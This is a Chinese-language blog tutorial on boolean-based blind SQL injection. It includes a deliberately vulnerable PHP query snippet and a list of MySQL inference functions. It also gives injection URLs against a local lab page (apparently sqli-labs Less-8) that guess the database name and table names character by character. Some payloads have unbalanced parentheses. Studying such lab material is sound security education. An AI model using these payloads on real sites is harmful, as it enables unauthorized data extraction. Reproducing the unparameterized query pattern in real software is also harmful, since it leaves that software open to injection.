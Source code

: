 ```yaml
---
layout: post
title: 1.3.1-SQL注入-SQL盲注-布尔盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 2904355367
date: 2018-06-21 00:00:00
description: more
---
```

## SQL盲注-布尔盲注

### 01布尔盲注原理
	
	$id=$_GET['id'];
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1 ";
	$result=mysql_query($sql);
	$row=mysql_fetch_array($result);
	if($row)
	{
		echo "Right";
	}
	else
	{
		echo "Wrong";
	}


代码存在SQL注入漏洞  
然而页面即不会回显数据，也不会回显错误信息  

只返回 “Right” 与 “Wrong”   

这里我们可以通过构造语句，来判断数据库信息的正确性，再通过页面的“真”和“假”来识别我们的判断是否正确，这既是布尔盲注！  


正确请求，id=1 -> 返回 id=1的数据  

错误请求，id=1' -> 返回 与正确页面不同的页面  
1.如果页面返回“假”，说明系统执行的SQL语句为“假”如：id=1 and left((select version()),1)=5--+  
2.想办法构造语句，判断数据库中内容的值  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/01.jpeg)

### 02布尔盲注方法

构造逻辑判断语句，判断信息的真假，取出所有的真值，实现SQL注入  

	left() left(database(),1)>'s'
			database()显示数据库名称，left(a,b)从左侧截取a的前b位
	regexp select user() regexp '^r'
			正则表达式的用法user()结果位root,regexp为匹配root的正则表达式
	like	select user() like 'ro%'
			与regexp类似，使用like进行匹配
	substr()  ascii(substr((select database()),1,1))=98
	ascii() substr(a,b,c)从b位置开始，截取字符串a到c长度，ascii()将某个字符转换为ascii值
	ord()	ord(mid((select user()),1,1))=114
	mid()	mid(a,b,c)从位置b开始，截取a字符串的c位ord()函数痛ascii(),将字符串转为ascii值
	
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/02.jpeg)


[MySql正则表达式](http://www.runoob.com/mysql/mysql-regexp.html)

注入点： 

	http://localhost:90/Less-8/?id=1'
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='a'--+
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='s'--+ 显示正确第一位为s

	http://localhost:90/Less-8/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e'--+ 第一个表名称字符

	http://localhost:90/Less-8/?id=1' and (select database() regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'e%')--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select database()),1,1))=115--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select table_name from information_schema.tables where table_schema=database()),1,1))=115--+


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/ascii.jpg)


## burp操作步骤
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/03.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/04.jpg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/05.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/06.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/07.jpg)
















